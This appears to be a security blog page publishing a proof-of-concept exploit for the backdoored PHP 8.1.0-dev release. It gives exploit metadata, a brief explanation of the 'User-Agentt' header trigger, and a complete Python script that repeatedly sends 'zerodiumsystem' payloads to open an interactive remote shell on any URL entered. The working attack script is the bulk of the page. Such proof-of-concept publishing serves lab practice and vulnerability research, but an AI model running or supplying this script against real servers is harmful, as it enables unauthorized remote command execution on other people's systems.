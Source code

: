 _[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Command Execution


![docs/logo_php8.svg](docs/logo_php8.svg "docs/logo_php8.svg")



* * * 

## POC Script

Exploit Title: PHP 8.1.0-dev Backdoor Remote Command Execution
Date: 23 may 2021
Exploit Author: flast101
Vendor Homepage: https://www.php.net/
Software Link: 
- https://hub.docker.com/r/phpdaily/php
- https://github.com/phpdaily/php
Version: 8.1.0-dev
Tested on: 8.1.0-dev
CVE : N/A
Previous vulnerability references:
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
- https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md


An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

The following exploit uses the backdoor to provide a pseudo system shell on the host.


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_




<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>

